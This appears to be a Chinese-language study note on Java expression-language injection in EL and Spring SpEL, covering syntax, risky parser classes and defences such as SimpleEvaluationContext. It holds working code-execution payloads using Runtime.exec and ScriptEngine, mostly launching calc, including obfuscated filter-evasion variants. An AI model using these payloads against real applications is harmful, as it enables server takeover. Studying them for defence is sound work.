 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
# **EL表达式**
原生EL（Expression Language）表达式 是为了使JSP写起来更加简单。
```
//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```


^
# **Spring的SpEL表达式注入**
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如
在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

当集成的spring-boot-starter-web依赖后，就可以自动使用。
关键词：StandardEvaluationContext()；
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
防御：使用时做白名单，只有需要的字符串才能当作代码执行。




### SpEL表达式 #{} 和 {} 和 # 和 '' 的使用
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```
4. `{}`   
    花括号 {} 通常用于在集合、数组或映射中表示集合字面量。以下是一些具体的用法和示例。
### Spel注入  
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```java
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
 SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。其中"SimpleEvaluationContext" 
 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。
 如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。
 ```java
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```

### 构造payload
```
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');
String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";
T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```

## Spel 防御
使用 SimpleEvaluationContext
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```



^
# **OGNL(struts2)表达式注入**